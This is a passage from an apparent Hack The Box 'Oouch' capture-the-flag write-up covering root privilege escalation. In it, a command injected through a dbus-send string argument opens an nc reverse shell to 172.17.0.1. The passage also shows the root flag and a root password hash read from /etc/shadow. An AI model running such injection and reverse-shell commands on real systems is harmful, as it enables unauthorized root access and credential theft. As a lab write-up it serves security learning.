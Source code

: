 - `www-data` can receive and send message from dbus.
- `www-data` owns uwsgi.

It's always better with a PTY.

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
```

We start a listener on oouch machine:

```
$ nc -nlvp 9999
```

Now we can use `dbus-send` to gain a root shell:

```
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block "string:;rm /tmp/.cyfun; mkfifo /tmp/.cyfun; cat /tmp/.cyfun | /bin/bash -i 2>&1 | nc 172.17.0.1 9999 >/tmp/.cyfun;"
```

And we receive the root shell:

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [172.17.0.1] from (UNKNOWN) [10.10.10.177] 37180
bash: cannot set terminal process group (2688): Inappropriate ioctl for device
bash: no job control in this shell
root@oouch:/root# id
uid=0(root) gid=0(root) groups=0(root)
root@oouch:/root# cat root.txt
cat root.txt
ff9e6428ad626cb968daba6eb1d33540
```

### Bonus

To unlock some WU we will need the root hash:

```
# cat /etc/shadow | grep root
root:$6$UQS7GJnfVbWRz5KO$vEaGmrfKvdrqh50eCr7D3AAruNfPe1dYhiv..ykDhlWWYvgaoabrqujg51k60bQz3jgTx.yXh5jCHNZ6ArkQ.1:18303:0:99999:7:::
```

[nmap]:https://nmap.org/
[ffuf]:https://github.com/ffuf/ffuf
[burp]:https://portswigger.net/burp
